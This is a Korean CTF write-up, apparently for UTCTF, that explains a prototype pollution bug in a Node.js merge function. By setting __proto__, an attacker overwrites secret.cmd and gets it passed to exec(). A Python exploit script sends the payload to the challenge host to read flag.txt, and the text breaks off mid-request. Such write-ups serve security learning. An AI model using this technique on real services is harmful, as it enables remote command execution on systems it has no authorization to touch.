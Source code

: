 ```javascript
        } else if (!(orig[data.attributes[k]] === undefined) && Array.isArray(orig[data.attributes[k]]) && Array.isArray(data.values[k])) {
            orig[data.attributes[k]] = orig[data.attributes[k]].concat(data.values[k]);
        } else {
            orig[data.attributes[k]] = data.values[k];
        }
    }
    cmd = "./merger.sh";

    if (secret.cmd != null) {
        cmd = secret.cmd;
    }

    var test = exec(cmd, (err, stdout, stderr) => {
        retObj = {};
        retObj['merged'] = orig;
        retObj['err'] = err;
        retObj['stdout'] = stdout;
        retObj['stderr'] = stderr;
        process.send(retObj);
    });
    console.log(test);
});
```       
      
병합 과정에서 `Prototype Pollution` 취약점이 발생하여 `secret.cmd` 값을 변조하면 원하는 명령을 실행시킬 수 있다.    
     
```javascript
if (!(orig[data.attributes[k]] === undefined) && isObject(orig[data.attributes[k]]) && isObject(data.values[k])) {
    for (const key in data.values[k]) {
        orig[data.attributes[k]][key] = data.values[k][key];
    }
} 
```     
위 코드에서 `data.attributes[k]` 값을 `__proto__`로 설정하고, `data.values[k][key]` 값을 `{"cmd": "/bin/cat flag.txt"}`로 전달해준다. 그럼, `orig[__proto__].cmd = "/bin/cat flag.txt"` 형태로 값이 들어가게 되어 `Prototype Pollution` 취약점이 발생하며 `secret.cmd` 값이 `"/bin/cat flag.txt"`으로 변조된다.     
       
## Exploit Code            
```python
import requests 

# url = "http://localhost:8725"
url = "http://guppy.utctf.live:8725"
s = requests.session() 

r = s.get(url) 
cookies = r.cookies.get_dict() 

r = s.post(
        f"{url}/api/makeCompany",
        json={
            "attributes": ["cmd"],
            "values": ["cmd"]
        }
)

r = s.post(     
        f"{url}/api/absorbCompany/0",
        json={
            "attributes": ["__proto__"],
            "values": [{"cmd": "/bin/cat flag.txt" }]
        }
```